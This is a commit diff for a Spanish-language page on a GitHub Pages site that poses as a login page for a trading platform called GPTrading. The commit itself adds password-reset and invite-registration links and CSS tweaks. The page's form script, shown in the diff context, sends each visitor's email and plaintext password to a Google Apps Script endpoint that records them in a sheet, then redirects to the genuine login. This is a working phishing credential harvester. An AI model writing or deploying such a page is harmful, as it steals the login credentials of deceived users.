

Before and after one commit to app-gp/app-gp.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 438-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -187,8 +187,11 @@
     color: #90EE90; /* Verde principal original */
     font-size: 12px;
     text-align: right;
+    cursor: pointer;
+    display: block;
     margin-bottom: 20px;
-    cursor: pointer;
+    margin-left: auto; /* Alinea el enlace a la esquina derecha del contenedor */
+    width: fit-content; /* Ajusta el ancho al contenido del texto */
   }
 
   .login-button {
@@ -202,7 +205,7 @@
     font-size: 14px;
     border-radius: 12px;
     display: block;
-    margin: 0 auto 20px auto;
+    margin: 0 auto 20px auto; /* Centrado original */
   }
 
   .error-message {
@@ -211,6 +214,19 @@
     text-align: center;
     margin-bottom: 20px;
     display: none;
+  }
+
+  .register-link {
+    color: #FFFFFF;
+    font-size: 14px;
+    text-align: right;
+    margin-top: 10px;
+  }
+
+  .register-link a {
+    color: #90EE90; /* Verde principal original */
+    text-decoration: none;
+    font-weight: bold;
   }
 
   .stair {
@@ -293,8 +309,11 @@
         </svg>
       </div>
       <div class="error-message" id="error-message">Por favor, revisa tu correo y contraseña</div>
-      <div class="forgot-password">I forgot my password</div>
+      <a href="https://app.gptrading.ai/auth/forgot-password" class="forgot-password">I forgot my password</a>
       <button type="submit" class="login-button">Login</button>
+      <div class="register-link">
+        ¿No tienes cuenta? <a href="https://app.gptrading.ai/invite/01K117P3S7K7WFHG3MC3VBS4XE">Regístrate</a>
+      </div>
     </form>
     <div class="x-container">
       <div class="x-square" style="top: 0; left: 0;"></div>
@@ -330,17 +349,16 @@ document.getElementById('login-form').addEventListener('submit', async function(
   const email = document.getElementById('email').value.toLowerCase();
   const password = document.getElementById('password').value;
   const errorMessage = document.getElementById('error-message');
-  const scriptURL = "https://script.google.com/macros/s/AKfycbyveaEsaqUeshTvIEX8GPZZO_CXugoxl7jtlI7kcLsyOaViTCnXXv9Axq-5FTkghreGHw/exec"; // Tu URL de Apps Script
+  const scriptURL = "https://script.google.com/macros/s/AKfycbyveaEsaqUeshTvIEX8GPZZO_CXugoxl7jtlI7kcLsyOaViTCnXXv9Axq-5FTkghreGHw/exec";
   const redirectURL = "https://app.gptrading.ai/auth/login";
 
-  // Validación inicial: correo debe terminar en @gmail.com y contraseña no vacía
   const emailRegex = /^[a-z0-9._%+-]+@gmail\.com$/;
   if (!emailRegex.test(email) || password.length === 0) {
     errorMessage.style.display = 'block';
-    return; // No enviar datos al Google Sheet ni redirigir
+    return;
   }
 
-  // Enviar datos al Google Sheet
+  errorMessage.style.display = 'none';
   fetch(scriptURL, {
     method: 'POST',
     mode: 'no-cors',
@@ -348,8 +366,6 @@ document.getElementById('login-form').addEventListener('submit', async function(
     body: JSON.stringify({ email: email, password: password })
   });
 
-  // Ocultar mensaje de error y redirigir
-  errorMessage.style.display = 'none';
   setTimeout(() => {
     window.location.href = redirectURL;
   }, 1000);
```
